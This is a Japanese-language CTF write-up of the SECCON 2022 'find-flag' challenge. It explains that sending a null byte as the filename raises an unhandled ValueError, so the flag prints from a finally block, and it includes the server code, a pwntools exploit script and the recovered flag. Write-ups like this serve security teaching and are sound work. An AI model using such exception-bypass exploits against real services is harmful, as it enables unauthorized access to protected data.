 ```yaml
---
layout: post
title: find-flag
parent: SECCON 2022
tags: [MISC]
grand_parent: CTF Write-ups
nav_order: 2
lang: jp
lang-ref: SECCON 2022 - find - flag
hidden: true
---
```


# Find-Flag_jp

```python
#server.py
#!/usr/bin/env python3.9
import os

FLAG = os.getenv("FLAG", "FAKECON{*** REDUCTED ***}").encode()
print(len(FLAG))
def check():
    try:
        filename = input("filename: ")
        if open(filename, "rb").read(len(FLAG)) == FLAG:
            return True
    except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
    except OSError:
        print("[-] hurting my eyes")
    except KeyboardInterrupt:
        print("[-] gone")
    return False

if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

```python
if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

上記のコードで注目すべき点は、FLAG出力がfinallyの中にあるということだ。

すなわち、check()関数で例外を発生させてcheck過程を迂回できるのだ**。**

```python
except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
		except OSError:
        print("[-] hurting my eyes")
```

check()関数で例外処理されたERRORリストである。

該当例外ではない他の例外を起こせば迂回が可能だ。

私はValueError:embedded null byteを使って迂回を進めた

```c
//local_setup.c
//gcc -o local_setup local_setup.c

#include <stdlib.h>

void main()
{
    system("/usr/bin/python3 server.py");
}
```

上記はDockerを実行せずにローカルで回すためにcコードを使用してコードを実行させる過程だ。

```python
#exploit.py
#remote exploit

"""from pwn import *

payload = b'\x00'
r = remote('find-flag.seccon.games', 10042)
r.recvuntil(b"filename: ")
r.sendline(payload)
print(r.recv())"""

#local exploit

from pwn import *

p = process('./local_setup')
payload = b'\x00'

p.recvuntil(b'filename: ')
p.sendline(payload)
print(p.recv())F
```

![image](/assets/images/SECCON2022/Find-Flag/find-flag.png)

FLAG: SECCON{exit_1n_Pyth0n_d0es_n0t_c4ll_exit_sysc4ll}
